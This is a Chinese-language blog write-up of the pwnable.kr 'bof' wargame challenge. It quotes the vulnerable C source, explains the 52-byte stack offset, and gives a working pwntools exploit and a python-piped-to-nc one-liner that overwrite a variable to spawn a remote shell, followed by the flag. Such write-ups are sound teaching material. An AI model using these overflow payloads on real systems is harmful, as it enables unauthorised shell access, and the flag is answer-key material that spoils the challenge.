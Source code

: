 ```yaml
---
layout: post
title: "pwnable.kr bof"
date: 2018-05-19 
tag: pwn Writeup pwnable.kr
---
```


> Nana told me that buffer overflow is one of the most common software vulnerability.  
> Is that true?  
>
> Download : <http://pwnable.kr/bin/bof>  
> Download : <http://pwnable.kr/bin/bof.c>  
>
> Running at : nc pwnable.kr 9000

先看一下给的源码

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);   // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

大概的思路就是向overflowme进行输入时溢出将key覆盖成0xcafebabe就行了。

用ida观察，我们可以知道 key(a1)在 ebp+8h, overflowme(s)在ebp-2Ch,之间有52字节，最后再加上需要覆盖的4字节就OK了。

![img_1](/images/posts/pwnable.kr/bof_1.png)

下面给出exp

```python
from pwn import *

# p = process("bof")
p = remote('pwnable.kr',9000)

payload = 'a'*52 + p32(0xcafebabe)

p.sendline(payload)

p.interactive()
```

网上还看见一个更简单的`(python -c "print 'a'*52 + '\xbe\xba\xfe\xca'";cat) | nc pwnable.kr 9000` 。

这里大家一定疑惑加`cat`干嘛。这里如果我们不加上cat那么nc在传完python的输出后就完成了这条命令，会直接结束这次会话。我们加上cat后nc的这个会话会永不结束，直到用户输入Ctrl+C。然后cat又比较特殊，它可以将用户输入原封不动返回并重定向给了nc。

flag: daddy, I just pwned a buFFer :)